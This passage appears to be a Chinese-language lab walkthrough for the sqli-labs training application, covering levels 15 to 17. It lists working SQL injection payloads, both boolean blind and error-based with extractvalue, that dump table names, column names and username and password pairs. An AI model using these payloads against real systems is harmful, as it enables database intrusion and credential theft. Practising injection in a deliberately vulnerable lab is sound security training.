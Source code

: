 ![image-20240308200807921](sqli-labs.assets/image-20240308200807921.png)

接下来步骤就和Less-13一样了

## Less-15(POST 盲注)

```mysql
判断闭合方式为'，但是没有回显，尝试报错注入也并没有报错信息，那么使用盲注手法
页面会显示true和false，那么选择布尔盲注
passwd=admin&uname=admin' and ascii(substr((select database()),1,1))>100 #
passwd=admin&uname=admin' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>100 #
passwd=admin&uname=admin' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>100 #
passwd=admin&uname=admin' and ascii(substr((select group_concat(username,'~',password) from users),1,1))>100 #
```

## Less-16(POST 盲注)

```mysql
根据页面为true还是false判断闭合方式为")，报错没有回显，依旧是布尔盲注
```

## Less-17(报错注入)

```mysql
这一关首先要输入正确的用户名，之后才能对password进行注入，union走不通，那么尝试报错注入
uname=admin&passwd=admin' and extractvalue(1,concat('~',database())) #
```

![image-20240308203712703](sqli-labs.assets/image-20240308203712703.png)

```mysql
有报错回显，那么直接拿表和列就行了
```

```mysql
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')))#
```
